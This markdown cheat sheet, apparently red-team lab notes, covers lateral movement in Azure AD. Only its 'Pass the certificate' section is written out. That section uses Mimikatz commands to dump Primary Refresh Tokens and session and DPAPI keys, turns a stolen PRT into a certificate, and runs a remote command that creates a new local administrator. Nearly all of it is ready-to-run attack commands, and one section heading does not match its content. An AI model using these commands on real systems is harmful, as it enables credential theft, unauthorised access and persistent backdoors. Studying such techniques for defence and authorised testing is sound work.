 # Lateral movement

## Azure AD machine --> Azure (or another Azure AD Machine)
* [Pass the certificate](#Pass-the-certificate)
* [Pass the PRT](#Pass-the-PRT) 

## Azure AD --> On-prem
* [Intune](#Intune)
* [Application proxy abuse](#Application-proxy-abuse)

## On-Prem --> Azure AD
* [Azure AD Connect](#Azure-AD-Connect)
  * [Password Hash Sync (PHS) Abuse](#Password-Hash-Sync-Abuse)
  * [Pass Through Authentication (PTA) Abuse](#Pass-Through-Authentication-Abuse)
  * [Federation (ADFS)](#Federation-ADFS)

# Azure AD --> On-prem
## Pass the certificate
- To go from Azure AD machine to other Azure AD machine if the user has administrative access to other machines.

#### Check if machine is Azure AD Joined
- Check for IsDeviceJoined : YES
```
dsregcmd /status
```

#### Extract PRT, Session key (keyvalue) and Tenant ID
```
Invoke-Mimikatz -Command '"privilege::debug" "sekurlsa::cloudap" ""exit"'
```

#### Extract context key, clearkey and derived key
```
Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "dpapi::cloudapkd /keyvalue:<keyvalue> /unprotect" "exit"'
```

#### Request a certificate from PRT
- https://github.com/morRubin/PrtToCert
- Code is modified in the lab
```
& 'C:\Program Files\Python39\python.exe' RequestCert.py --tenantId <TENANT ID> --prt <PRT VALUE> --userName <USERNAME> --hexCtx <CONTEXT KEY VALUE> --hexDerivedKey <DERIVED KEY VALUE>
```

#### Use certificate to add a user with administrative privileges
- Code is modified in the lab
- https://github.com/morRubin/AzureADJoinedMachinePTC
```
python \AzureADJoinedMachinePTC\Main.py --usercert <PATH TO .pfx FILE> --certpass AzureADCert --remoteip <TARGET IP> --command "cmd.exe /c net user <USERNAME> <PASSWORD> /add /Y && net localgroup administrators <USERNAME> /add"
```
